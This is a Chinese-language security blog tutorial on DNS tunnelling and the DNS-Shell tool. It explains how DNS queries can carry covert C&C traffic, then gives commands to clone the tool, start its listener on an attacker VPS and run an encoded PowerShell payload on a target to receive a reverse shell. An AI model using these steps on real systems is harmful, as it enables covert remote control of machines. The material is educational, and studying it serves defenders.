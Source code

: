 **目录**

[DNS隧道](#t0 "DNS隧道")

[利用DNS进行命令控制(DNS-Shell)](#t1 "利用DNS进行命令控制(DNS-Shell)")

[DNS-Shell的使用](#t2 "DNS-Shell的使用")

* * *

DNS隧道
=====

DNS协议是一种请求、应答协议，也是一种可用于应用层的隧道技术。DNS隧道的工作原理很简单，在进行DNS查询时，如果查询的域名不在DNS服务器本机缓存中，就会访问互联网进行查询，然后返回结果。如果在互联网上有一台定制的服务器，那么依靠DNS协议即可进行数据包的交互。从DNS协议的角度来看，这样的操作只是在一次次地查询某个特定的域名并得到解析结果，但其本质问题是，预期的返回结果应该是一个IP地址，而事实上返回的可以是任意的字符串，包括加密的C&C指令。

在使用DNS隧道与外部进行通信时，从表面上看是没有连接外网的(内网网关没有转发IP数据包)。但实际上，内网的DNS服务器进行了中转操作。这就是DNS隧道的工作原理，简单地说，就是将其他协议封装在DNS协议中进行传输。

利用DNS进行命令控制(DNS-Shell)
----------------------

DNS-Shell是一款通过DNS[信道](https://so.csdn.net/so/search?q=%E4%BF%A1%E9%81%93&spm=1001.2101.3001.7020)实现交互式Shell的强大工具，该工具的服务器端基于Python开发，可以任何一种安装了Python环境的操作系统平台上运行，工具所使用的Payload均已PowerShell命令进行编码，保证了在不同平台间运行的稳定性和兼容性。

**DNS-Shell运行机制**

该工具所使用的Payload会在服务器端脚本被调用时自动生成，Payload会使用nslookup来向服务器端查询和请求新的操作命令，接下来服务器端会监听端口53并等待传入的连接。当Payload在目标设备上成功执行后，服务器端将会生成一个交互式Shell并提供给用户进行操作。

通信信道建立成功后，Payload会继续向服务器查询和请求新的操作指令，当攻击者在服务器端输入新的操作命令后，Payload将会收到命令并执行该命令，然后在命令执行成功后将执行结果返回给服务器端。

### **DNS-Shell的使用**

DNS-Shell的运行相对来说比较简单，DNS-Shell支持两种操作模式，即 直接操作模式 和 递归模式：

**下载DNS-Shell：**

```
git clone https://github.com/sensepost/DNS-Shell.git
```


**DNS-Shell直接模式：**

```
python2 DNS-Shell.py -l -d VPS的IP
```


该命令会生成一段payload

![](https://img-blog.csdnimg.cn/20200220175024922.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

我们将该payload复制，在目标机cmd窗口中执行 

```
powershell.exe -e 生成的payload
```


![](https://img-blog.csdnimg.cn/20200220175047404.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

可以看到，我们已经成功接收到反弹回来的shell了

![](https://img-blog.csdnimg.cn/20200220175135438.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

 如果想跟我一起讨论的话，就快加入我的知识星球吧。星球里有一千多位同样爱好安全技术的小伙伴一起交流！[知识星球 | 深度连接铁杆粉丝，运营高品质社群，知识变现的工具](https://wx.zsxq.com/dweb2/index/group/88514121251242 "知识星球 | 深度连接铁杆粉丝，运营高品质社群，知识变现的工具")

![](https://img-blog.csdnimg.cn/1219ed79e9ed449d85d27b732cda5ea6.jpg) 

参考文章：[利用DNS隧道构建隐蔽C&C信道](https://mp.weixin.qq.com/s/9reEmnVKOwBOCVV1gwLczg "利用DNS隧道构建隐蔽C&C信道")

                  [DNS-Shell：一款通过DNS信道来实现交互式Shell的强大工具](https://www.freebuf.com/sectool/198686.html "DNS-Shell：一款通过DNS信道来实现交互式Shell的强大工具")

                  [DNS Shell 一款控制服务器的工具](https://mp.weixin.qq.com/s?__biz=MzAxMjE3ODU3MQ==&mid=2650455164&idx=4&sn=9b247838a7291949ee1e974646512bf7&chksm=83bbd998b4cc508eddb26f20dbe1bee0dc97c637265ae54495a4a1287e37c48360795ce60da1&scene=0&xtrack=1&key=2e27ce8b4f8ddf520658a5c8651174f11d2db22c6250ba2d31d6cba8fa297d91f0d3377a5b1177483055a5e99e7c2d697a4d58fa63c5e8f1c903f2148d8be1274de82117022bab884f3e6757a5e79d8a&ascene=14&uin=MjIwMDQzNjQxOQ%3D%3D&devicetype=Windows+10&version=62060833&lang=zh_CN&pass_ticket=0h6HqaWCJvhAQAnVlT6sJN9DzDfdfzQBnP1cucUdKA7EvsGPNqyVpXQ%2B6QzRWi26 "DNS Shell 一款控制服务器的工具")